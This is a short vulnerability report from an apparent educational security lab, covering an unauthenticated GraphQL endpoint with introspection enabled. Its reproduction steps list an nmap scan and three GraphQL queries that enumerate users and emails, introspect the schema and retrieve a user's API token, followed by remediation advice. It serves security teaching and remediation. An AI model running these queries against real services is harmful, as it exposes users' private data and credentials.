



**CVE-ID**: EDU-GRAPHQLGALAXY-2026-T03-004  
**Title**: Unauthenticated GraphQL Introspection and Sensitive Data Exposure  
**Affected Lab**: graphqql-galaxy: Galactic Communications Hub  
**Component**: GraphQL endpoint  
**Severity**: High  
**CVSS Vector**: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N  
**CVSS Score**: 7.5

**Description**:  
The GraphQL endpoint lacks authentication controls and has introspection enabled, allowing unauthenticated attackers to:
1. Enumerate all users and their sensitive data (IDs, usernames, emails, admin status)
2. Query the complete schema to discover all available data types and fields
3. Access sensitive fields including API tokens via direct object reference
4. Retrieve any user's private information by ID

**Proof of Concept**:  

Payload : commands on graphql interface as seen in proof of concept  

**Steps to Reproduce**:  
1. Determine graphql-galaxy IP by using commands `sudo docker ps` followed by `sudo docker inspect [CONTAINERID]`. Or any other method of choice.
2. Perform nmap scan on the found IP by also enabling the default scripts: `nmap -sV -sC -T5 -p- [graphql-galaxyIP]`. Output will show a http service at port 5023
3. open the website: `http:[graphql-galaxyIP]:5023/`
4. Click on `>> Enter GraphiQL Console <<`
5. On the console you can perfom the following
    - query { users { id username email } }
    - query { __type(name: "User") { name fields { name type { name kind ofType { name } } } } }
    - query { user(id: "1") { username apiToken } }

**Remediation**:
1. Disable introspection in production environment
2. Add rate limiting on GraphQL queries
3. Implement authentication middleware for all GraphQL endpoints

**Discovered By**: Team 3  
**Date**: 2026-02-13
